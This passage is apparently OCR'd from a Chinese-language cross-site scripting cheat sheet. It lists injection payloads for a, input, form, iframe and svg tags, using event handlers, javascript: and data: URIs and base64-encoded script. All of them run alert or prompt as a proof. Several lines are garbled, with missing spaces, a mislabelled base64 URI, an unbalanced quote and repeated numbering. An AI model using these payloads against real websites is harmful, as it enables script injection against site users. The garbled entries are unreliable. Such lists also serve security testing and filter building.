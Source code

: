 利用方式 3
<a href="" onclick=eval(alert('xss'))>aa</a>

利用方式 4
<a href=kycg.asp?ttt=1000onmouseover=prompt('xss')y=2016>aa</a>

input 标签
标准格式
<input name="name" value="">

利用方式 1
<input value="" onclick=alert('xss') type="text">

利用方式 2
<input name="name" value="" onmouseover=prompt('xss') bad="">

利用方式 4
<input name="name" value=""><script>alert('xss')</script>

<form>标签
XSS利用方式1
<form action=javascript:alert('xss')method="get">

<form action=javascript:alert('xss')>

XSS 利用方式 2

<form method=postaction=aa.asp?onmouseover=prompt('xss')>

<form method=postaction=aa.asp?onmouseover=alert('xss')>

<form action=1onmouseover=alert('xss)>

XSS 利用方式 3

<form method=postaction="data:text/html;base64,<script>alert('xss')</script>">

<form method=postaction="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">

<iframe>标签
XSS利用方式1
<iframe src=javascript:alert('xss');height=5width=1000/><iframe>

XSS 利用方式 2

<iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe>

<iframe src="data:text/html;base64,<script>alert('xss')</script>">

<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">

XSS 利用方式 3

<iframe src="aaa"onmouseover=alert('xss')/><iframe>

XSS 利用方式 3

<iframe src="javascript&colon;prompt&lpar;xss&rpar;"></iframe>

svg<>标签
<svg onload=alert(1)>
